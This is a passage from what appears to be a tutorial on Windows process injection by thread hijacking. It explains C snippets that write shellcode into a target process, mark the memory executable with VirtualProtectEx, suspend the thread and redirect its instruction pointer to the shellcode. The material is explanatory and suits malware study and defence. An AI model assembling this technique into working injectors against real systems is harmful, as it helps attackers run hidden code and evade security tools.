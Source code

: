 `WriteProcessMemory` writes the shellcode to the allocated memory in the target process.

#### VirtualProtectEx
```c
if (!VirtualProtectEx(hProcess, *ppAddress, sSizeOfShellcode, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
    printf("\t[!] VirtualProtectEx Failed With Error : %d \n", GetLastError());
    return FALSE;
}
```

We can use `VirtualProtectEx` to mark our memory region as readable, writable, and executable. This way we able to execute the shellcode.

#### SuspendThread
Now we are ready to hijack a thread in our target process and modify the instruction pointer to point to the base address of our shellcode.

We start off with this function definition.
```c
BOOL HijackThread(HANDLE hThread, PVOID pAddress) {
```

- `hThread`: A handle to our chosen thread in the target process (the main thread in this case)
- `pAddress`: A pointer to the address where execution should be redirected (base address of our shellcode)

```c
CONTEXT ThreadCtx = { .ContextFlags = CONTEXT_ALL };
```

`ThreadCtx` is a context structure that holds the context of the thread (registers, flags, etc.). The `ContextFlags` is set to `CONTEXT_ALL` to retrieve and set all parts of the thread context.

```c
SuspendThread(hThread);
```

`SuspendThread` suspends the execution of the target thread. This ensures the thread's context can be safely modified without interference from its own execution.

#### GetThreadContext
```c
if (!GetThreadContext(hThread, &ThreadCtx)) {
    printf("\t[!] GetThreadContext Failed With Error : %d \n", GetLastError());
    return FALSE;
}
```

`GetThreadContext` retrieves the current context (state) of the target thread.

Next, we can modify the instruction pointer.
```c
ThreadCtx.Rip = pAddress;
```

Sets the instruction pointer (`Rip` on x86_64 architectures) to the specified address (`pAddress`). This means when the thread resumes, it will start executing code from `pAddress`.
